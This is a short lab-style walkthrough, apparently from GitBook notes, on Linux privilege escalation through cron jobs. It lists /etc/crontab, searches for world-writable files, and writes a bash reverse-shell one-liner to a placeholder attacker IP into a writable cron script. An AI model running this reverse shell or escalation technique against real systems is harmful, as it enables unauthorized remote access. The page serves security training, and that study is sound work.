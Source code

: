 # crontab

to display schedule task

```bash
cat /etc/crontab 
# And
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

we found two bash script so let’s know the privileges of this files

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we found \[`overwrite.sh](http://overwrite.sh)` we can write in this file so let’s take a revers shell

```bash
bash -c 'bash -i >& /dev/tcp/AttackerIP/portnumber 0>&1'
```

<figure><img src="../../../.gitbook/assets/image 2 (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
